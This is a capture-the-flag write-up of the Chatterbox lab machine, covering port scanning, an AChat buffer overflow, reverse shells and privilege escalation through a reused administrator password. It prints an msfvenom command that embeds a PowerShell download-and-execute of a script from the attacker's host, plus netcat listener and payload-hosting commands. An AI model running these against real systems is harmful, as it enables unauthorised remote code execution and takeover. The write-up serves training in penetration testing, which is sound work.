# Chatterbox (`10.10.10.74`)

## Summary

1. Buffer overflow in a chat app running on weird port.
2. Powershell reverse shell with `nishang`
3. `WinPEAS` shows us some credentials and the administrator account has a reused password.

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `chatterbox.htb` to `10.10.10.74`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports chatterbox.htb
# Nmap 7.80 scan initiated Thu Oct  8 05:49:13 2020 as: nmap -A -v -p- -Pn -oA allports chatterbox.htb
Nmap scan report for chatterbox.htb (10.10.10.74)
Host is up (0.058s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.060 days (since Thu Oct  8 05:47:23 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 9256/tcp)
HOP RTT      ADDRESS
1   61.59 ms 10.10.14.1
2   61.60 ms chatterbox.htb (10.10.10.74)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  8 07:14:28 2020 -- 1 IP address (1 host up) scanned in 5115.12 seconds

```

## Reverse Shell (Method 1)





I generate a reverse shell and name it `shell.exe`.



I create one payload to download the shell to `C:\\Users\\public\\shell.exe`, and another one to execute it.

I modify the IP address in the exploit like this. All other modifications are payload-related.



The "download shell" payload looks like this:



And the "execute shell" payload looks like this:



I start a server with `$ sudo python3 -m http.server 80` and a `nc` listener with: `$ sudo nc -lvnp 443`.

I then run the download and execute payloads in sequence.











## Powershell Reverse Shell

We're going to host a `nishang` reverse shell on a web server and download and execute it on our target with an `msfvenom` payload delivered through the buffer overflow.



```bash
$ msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.39/shell.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```



Start a listener with `$ nc -lvnp 443`.





## Privilege Escalation

winPEAS shows...





Let's see if they reused the password.

I create this script to test the credentials, and if they work, create a reverse shell from the Administrator account.



I host it on a server.



In my existing powershell session, I run this command after starting a listener with `$ nc -lvnp 443`:





And that's a wrap.

This was a fantastic box.

